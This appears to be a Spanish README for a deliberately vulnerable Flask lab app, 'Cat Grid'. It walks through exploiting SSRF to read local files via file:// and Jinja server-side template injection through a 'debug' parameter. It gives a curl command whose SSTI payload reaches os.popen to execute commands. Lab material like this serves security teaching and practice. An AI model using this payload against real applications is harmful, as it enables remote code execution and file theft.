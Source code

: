 # Cat Grid


Aplicación python con Flask vulnerable a SSRF y SSTI


Pasos : 
 - Ver que se accede a las imagenes a traves de localhost:5000
 - Leer archivos cambiando URL por file://
 - Descubrir parámetro debug que permite pasar parámetros
 - Con debug ver que es vulnerable a SSTI {{7*7}} en Jinja
 
 curl "http://172.31.24.25/?debug=\{\{self.__init__.__globals__.__builtins__.__import__('os').popen('pwd').read()\}\}"
 
 
